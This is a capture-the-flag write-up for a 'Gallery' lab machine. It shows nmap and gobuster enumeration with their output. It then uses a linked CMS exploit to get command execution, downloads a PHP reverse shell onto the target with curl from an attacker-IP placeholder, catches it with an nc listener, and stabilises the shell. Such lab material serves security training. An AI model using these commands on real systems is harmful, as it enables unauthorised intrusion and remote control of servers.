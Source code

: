 ## Gallery


1. Enumerate with nmap, ports 80 and 8080 are open
```
root@ip-10-10-199-150:~# nmap -sS -sV 10.10.187.97

Starting Nmap 7.60 ( https://nmap.org ) at 2022-03-22 16:51 GMT
Nmap scan report for ip-10-10-187-97.eu-west-1.compute.internal (10.10.187.97)
Host is up (0.0012s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:C9:D8:1F:EB:1F (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.40 seconds
```

2. Run gobuster
```
root@ip-10-10-199-150:~# gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.187.97
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.187.97
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/03/22 16:53:09 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/gallery (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2022/03/22 16:53:12 Finished
===============================================================
```

3. Navigate to `/gallery` and we find that it's a content management system. It's vulnerable to a SQL injection that will let us login automatically, but if we do that there's no way of retrieving the password hashes, which means we need to get a shell. Do some research and find an [exploit](https://www.exploit-db.com/exploits/50214). I modified the URLs inside the script to work for this CTF. Run it and it'll upload a script and give you a URL that lets you run commands on the server.
4. Simply entering a reverse shell command into the URL doesn't seem to work, so let's upload a php reverse shell into the server. First, download it from [github](https://github.com/pentestmonkey/php-reverse-shell). Then modify the IP address and port to point to your machine, create a web server on that directory with `python3 -m http.server`, and download it onto the target machine with `curl%20http://<attacker ip address>:8000/php-reverse-shell.php%20%3E%20php_shell.php`
5. Now go to `http://<target ip address>/gallery/uploads/` and you should see your shell. Start a nc listener with `nc -nvlp <port>` and run the reverse shell on the server by clicking on it. Once you get the shell, stabilize it with `python3 -c 'import pty; pty.spawn("/bin/bash")'`
